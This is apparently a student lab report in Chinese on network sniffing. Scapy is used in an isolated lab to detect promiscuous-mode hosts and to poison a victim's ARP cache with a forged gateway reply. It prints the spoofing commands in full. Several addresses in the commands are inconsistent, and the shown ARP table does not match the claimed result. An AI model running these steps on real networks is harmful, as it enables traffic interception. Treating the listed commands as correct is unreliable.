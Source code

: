 # 网络监听



网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:bd:92:09 / eth0
  - 172.16.111.102
- 受害者主机
  - 08:00:27:bc:a6:92 / eth0
  - 172.16.111.127
- 网关
  - 08:00:27:2a:4b:04 / enp0s9
  - 172.16.111.1

## 实验准备

### 安装 `scapy`

在攻击者主机上提前安装好 [`scapy`](https://scapy.net/)。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 实验一：检测局域网中的异常终端

```bash
# 在受害者(victim)主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:bc:a6:92 brd ff:ff:ff:ff:ff:ff
```

![link_show](img/link_show.png)



```bash
# 在攻击者(attacker)主机上开启 scapy
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.127")
```

![scapy](img/scapy_1.png)



```bash
# 回到受害者(victim)主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:bc:a6:92 brd ff:ff:ff:ff:ff:ff

```

![promisc](img/promisc.png)



```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.127")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![scapy_2](img/scapy_2.png)







## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:bd:92:09
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:bd:92:09
#      psrc= 172.16.111.102
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

```

![broadcast](img/broadcast.png)





```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下:08:00:27:2a:4b:04
gw_mac = recved[0][0][1].hwsrc



# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.127
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.102", hwdst="08:00:27:2a:4b:04")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![send](img/send.png)



此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 172.16.111.1 dev eth0 lladdr 08:00:27:2a:4b:04 STALE
# 172.16.111.102 dev eth0 lladdr 08:00:27:bd:92:09 STALE
```

回到攻击者主机上的` scapy` 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:2a:4b:04", pdst="172.16.111.172", hwdst="08:00:27:bc:a6:92")
sendp(restorepkt1, count=100, inter=0.2)
```

![scapy_send](img/scapy_send.png)





此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![ip_n](img/ip_n.png)



## 实验中遇到的问题

- 在进行实验一的过程中，更改了受害者（victim)的地址，导致攻击者主机重新执行`pkt = promiscping("172.16.111.114")`命令时结果不变（`172.16.111.114`为修改前的受害者主机地址）。



## 参考资料

- [第四章 网络监听](https://c4pr1c3.github.io/cuc-ns/)